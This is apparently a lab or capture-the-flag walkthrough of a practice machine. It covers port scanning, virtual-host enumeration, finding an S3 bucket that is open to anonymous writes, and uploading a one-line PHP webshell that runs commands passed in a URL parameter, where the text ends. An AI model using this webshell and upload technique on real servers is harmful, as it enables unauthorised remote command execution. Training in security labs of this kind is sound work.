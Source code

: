 ```bash
nmap -T5 -Pn -sV -p- --min-rate=1000 "10.129.193.208"
```
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
How many TCP ports are open? `2`.

What is the domain of the email address in the ``Contact" section of the website? `thetoppers.htb`.

In the absence of a DNS server, which Linux file can we use to resolve hostnames to IP addresses in order to be able to access the websites that point to those hostnames? `/etc/hosts`.
```bash
echo "10.129.193.208    thetoppers.htb" | sudo tee -a /etc/hosts
```

```bash
gobuster vhost -w subdomains-top1million-5000.txt -u thetoppers.htb --append-domain
```
The option `--append-domain` is important. Otherwise, the wordlist file must contain the full domains.
Which sub-domain is discovered during further enumeration? `s3.thetoppers.htb`.

Which service is running on the discovered sub-domain? amazon s3.
```bash
echo "10.129.193.208    s3.thetoppers.htb" | sudo tee -a /etc/hosts
```

Which command line utility can be used to interact with the service running on the discovered sub-domain? `awscli`.

Which command is used to set up the AWS CLI installation? `aws configure`.

What is the command used by the above utility to list all of the S3 buckets? `aws s3 ls`.

This server is configured to run files written in what web scripting language? `php`.
```bash
pacman -Ss amazon
sudo pacman -S aws-cli
aws configure
```

Use fake values for the AWS account, since it does not matter.
```bash
AWS Access Key ID [None]: aSsad
AWS Secret Access Key [None]: adsasd
Default region name [None]: asdijigj
Default output format [None]: idjoa
```

```bash
aws s3 ls s3://thetoppers.htb
Could not connect to the endpoint URL: "http://s3.a.amazonaws.com/thetoppers.htb"
```

Modify the endpoint URL. Upload a simple PHP webshell `shell.php`.
```bash
$ aws s3 ls --endpoint-url=http://s3.thetoppers.htb s3://thetoppers.htb
$ echo "<?php system($_GET['cmd']); ?>" > shell.php
$ aws s3 cp --endpoint-url=http://s3.thetoppers.htb shell.php s3://thetoppers.htb
```
